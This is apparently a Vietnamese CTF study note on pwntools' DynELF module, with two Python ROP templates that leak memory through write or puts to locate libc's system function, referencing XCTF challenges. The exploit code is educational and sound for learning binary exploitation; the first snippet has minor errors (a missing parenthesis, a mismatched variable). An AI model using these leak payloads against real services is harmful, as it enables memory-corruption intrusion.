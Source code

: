 # DynELF pwntools

> DynELF Module pwntools - Resolving remote functions using leaks.

- [Link-DynELF_pwntools](https://docs.pwntools.com/en/stable/dynelf.html) .

- Trong thực tế một số challenge không cung cấp libc.so nhưng vẫn có các hàm output có thể được sử dụng để leak giá trị (khác với ret2dlresolve là không có hàm output).
- Khi đó khớp trực tiếp libc.so từ module - hàm DynELF trong pwntools.
- Điều kiện yêu cầu là địa chỉ thực trong LIBC và các hàm output: `write, puts, printf, ...`

- __[A] VD:__ Khi hàm output của chương trình được cung cấp là hàm write, chúng ta có thể sử dụng hàm write để xuất địa chỉ thực của hàm write. Mẫu viết DynELF(64-bits) của chức năng write được cung cấp:
```python
def leak(address):
    payload = padding
    payload += p64(pop_rdi_ret) + p64(1)
    payload += p64(pop_rsi_ret) + p64(address)
    payload += p64(pop_rdx_ret) + p64(8)
    payload += p64(write_plt)
    payload += p64(ret_address)
    p.send(payload)
    data = p.recv(8)
    return data

d=DynELF(leak, elf=ELF("./program")
system_address=d.lookup("system", "libc")
log.info("system LIBC address: " + hex(system))
```

- __[B] VD:__ Khi là hàm puts, đầu ra của hàm puts khó kiểm soát hơn nhiều so với đầu ra của chức năng write vì chúng ta có thể kiểm soát đầu ra của hàm write bao nhiêu byte  còn đầu ra của hàm puts là cho đến khi gặp ký tự NULL
=> khó khăn hơn cho việc leak vì ta vẫn chỉ cần 4 byte đầu khi leak. Khi sử dụng puts sẽ xuất hiện hai tình huống:                                                                                                                                                                                          
    * `1.` Không còn dữ liệu nào của chương trình được in ra sau khi dùng pus để leak.
    * `2.` Có dữ liệu của chương trình được in ra sau khi sử dụng puts để leak. VD: "<value use puts => leak>Helloworld!!!"
- Mẫu chương trình, với trường hợp hai chỉ cần thay `c=b""` = `c=b"H"`.

```python
def leak(address):
	count = 0
	data = b""
	payload = b"A" * 64 + b"B" * 8
	payload += p64(pop_rdi) + p64(address)
	payload += p64(puts_plt)
	payload += p64(start_addr)
	payload = payload.ljust(200, b"B")
	p.send(payload)
	print(p.recvuntil(b"bye~\n"))
	up = b""
	while True:
		c = p.recv(numb=1, timeout=0.5)
		count += 1
		if up == b'\n' and c == b"":
			data = data[:-1]
			data += b"\x00"
			break
		else:
			data += c
		up = c
	data = data[:4]
	log.info("%#x => %s" % (address, (data or b'')))
	return data
```

- References:
    * https://blog.csdn.net/qq_43986365/article/details/100182414

    * https://www.anquanke.com/post/id/85129

    * Challenge pwn-100, pwn-200 của XCTF.


